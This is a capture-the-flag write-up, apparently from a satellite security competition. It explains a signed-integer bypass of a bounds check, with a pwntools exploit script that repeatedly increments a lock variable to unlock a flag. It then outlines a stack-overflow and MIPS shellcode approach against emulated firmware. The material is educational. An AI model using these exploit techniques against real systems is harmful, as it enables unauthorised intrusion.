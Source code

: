 This is checked with the condition `header->id >= COMMAND_LIST_LENGTH`, but as `command_id_type` defaults to a signed type, we can send a "negative" id in the packet, to trick it into passing this check.

For each valid packet, the program increments a slot in the `command_log` array. While we can not overflow this array "to the right", a negative packet id will effectively allow us to increment any byte that comes "before" this array in memory. Fortunately, the `lock_state` variable, which dictates whether we may get the flag or not, is positioned 8 bytes before `command_log`:

```
$ nm parser
[ ... ]
0000000000203038 B command_log
[ ... ]
0000000000203030 B lock_state
[ ... ]
```

Thus, by sending a packet with id -8, we can increment the least significant byte of `lock_state`. Doing so 255 times will take it from its initial value of 1=LOCKED to 0=UNLOCKED, after which we can just get the flag with a packet of id 9=COMMAND_GETKEYS:

```py
from pwn import *

rr = remote("lucky-tree.satellitesabove.me", 5008)
rr.sendlineafter("Ticket please:", "ticket{...}")

rr.recvuntil("Starting up Service on udp:")
ip = rr.recvuntil(":", drop=True)
port = int(rr.recvline().strip())

r = remote(ip, port, typ='udp')

def send_command(ver, typ, id):
   r.send(p16(ver) + p16(typ) + p32(id))
   print(r.clean(timeout=0).decode(), end='')

for i in range(255):
   send_command(1, 1, 0x100000000 - 8)

send_command(1, 1, 9)

r.interactive()

```

## Mongoose Mayhem

Solved by trupples, but unfortunately I did not manage my time well enough to do a detailed explanation, though I really enjoyed this task. It was quite cool and complex! The steps I took boil down to:
1. properly load the ROM in your favourite decompiler (I initially tried IDA but Ghidra managed the control flow better), keeping in mind that the firmware does virtual memory mapping
2. understanding the communications protocol: all valid packets start with A5 5A and 63 bytes of data, which are interpreted as: one command id byte, a checksum byte (the sum of all packet bytes must be congruent to -1 mod 256), and 61 bytes of arbitrary data.
3. Analyse the 8 commands, one of which (id=5) is vulnerable to a stack-based buffer overflow, allowing us to overwrite the return pointer to control code flow. Since the emulated processor does not have any Data Execution Prevention, we can...
4. Write MIPS shellcode to access the flag device and send it to us via UART. A notable difficulty was managing far jumps, as well as the 4-byte code alignment MIPS expects. The "normal" MIPS jump command only changes the lower 26 bits of the address, while the bits of shellcode were in completely different regions of memory.  
